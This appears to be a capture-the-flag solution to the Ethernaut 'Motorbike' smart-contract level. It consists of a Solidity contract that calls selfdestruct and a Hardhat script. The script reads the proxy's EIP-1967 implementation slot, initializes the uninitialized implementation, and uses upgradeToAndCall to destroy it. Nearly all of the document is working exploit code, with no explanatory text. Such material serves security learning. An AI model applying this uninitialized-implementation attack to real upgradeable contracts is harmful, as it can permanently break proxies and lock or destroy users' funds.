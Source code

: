 #### MotorbikeSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

contract MotorbikeSolve {

    constructor() public {}
    
    function selfDestruct () public payable {
        selfdestruct(tx.origin);
    }
}
```

#### motorbike-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    motorbikeAddress = "0xd3de2A33bCebeEa8BeEa1E114Dd6eFd74A073E6F";
    contract = await ethers.getContractAt("Engine", motorbikeAddress);
    proxy = await ethers.getContractAt("Motorbike", motorbikeAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    // get implementation address slot
    implementationSlot = ethers.BigNumber.from(ethers.utils.keccak256(ethers.utils.toUtf8Bytes("eip1967.proxy.implementation"))).sub(1)
    implementationAddress = ethers.utils.hexDataSlice(await ethers.provider.getStorageAt(contract.address, implementationSlot), 12);

    implementation = await ethers.getContractAt("Engine", implementationAddress);

    MotorbikeSolve = await ethers.getContractFactory("MotorbikeSolve");
    motorbikeSolve = await MotorbikeSolve.deploy();
    await motorbikeSolve.deployed();

    console.log("Level address: " + contract.address)
    console.log("Horse Power  : " + await contract.horsePower())
    console.log("")

    // initialize implementation contract
    console.log("Initializing implementation contract")
    tx = await implementation.connect(account).initialize()
    receipt = await tx.wait()

    // upgrade to attacker controlled contract and call selfDestruct
    console.log("Upgrading implementation contract and triggering selfdestruct")
    selfDestructCallData = motorbikeSolve.interface.encodeFunctionData("selfDestruct")
    tx = await implementation.upgradeToAndCall(motorbikeSolve.address, selfDestructCallData)
    receipt = await tx.wait()

    console.log("")
    try {
        console.log("Horse Power  : " + await contract.horsePower())
    } catch {
        console.log("Horse Power  : contract reverted")
    }
}

```